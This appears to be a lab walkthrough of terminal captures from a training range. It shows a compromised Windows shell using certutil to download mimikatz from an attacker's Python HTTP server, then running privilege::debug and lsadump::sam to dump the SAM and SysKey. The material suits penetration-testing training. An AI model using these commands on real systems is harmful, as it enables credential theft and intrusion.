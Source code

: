 ```
08/12/2020  04:13 AM    <DIR>          Program Files
09/05/2020  09:05 AM    <DIR>          Program Files (x86)
09/10/2020  09:50 AM    <DIR>          Users
09/14/2020  06:49 AM    <DIR>          Windows
               1 File(s)             32 bytes
               6 Dir(s)   9,316,237,312 bytes free

c:\>mkdir Temp
mkdir Temp

c:\>cd temp         
cd temp

c:\Temp>

```

Tab2

```
c:\Temp>certutil -urlcache -f http://10.10.21.3/mimikatz.exe mimikatz.exe
certutil -urlcache -f http://10.10.21.3/mimikatz.exe mimikatz.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Tab3

```
root@attackdefense:/usr/share/windows-resources/mimikatz/x64# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.25.234 - - [22/Jun/2023 07:13:18] "GET /mimikatz.exe HTTP/1.1" 200 -
10.0.25.234 - - [22/Jun/2023 07:13:18] "GET /mimikatz.exe HTTP/1.1" 200 -

```

Tab2

```
c:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of c:\Temp

06/22/2023  01:43 AM    <DIR>          .
06/22/2023  01:43 AM    <DIR>          ..
06/22/2023  01:43 AM         1,240,840 mimikatz.exe
               1 File(s)      1,240,840 bytes
               2 Dir(s)   9,312,514,048 bytes free
c:\Temp>.\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb  8 2020 12:26:49
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::sam
Domain : WIN-OMCNBKR66MN
SysKey : 23675d238b2d51b9bd6c6885a4fbe6cf
```